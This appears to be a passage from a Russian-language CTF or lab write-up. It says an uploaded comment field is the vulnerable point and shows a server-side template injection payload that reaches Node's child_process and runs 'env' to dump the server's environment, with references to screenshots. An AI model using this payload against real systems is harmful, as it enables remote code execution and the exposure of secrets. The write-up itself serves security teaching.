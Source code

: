 Помимо картинки можно загрузить и комментарий, который и является уязвимым местом:

```sh
<%= "pwnd".toString.constructor.call({},"return global.process.mainModule.constructor._load('child_process').execSync('env').toString()")() %>
```

![ScreenShot](screenshots/32.png)

![ScreenShot](screenshots/33.png)
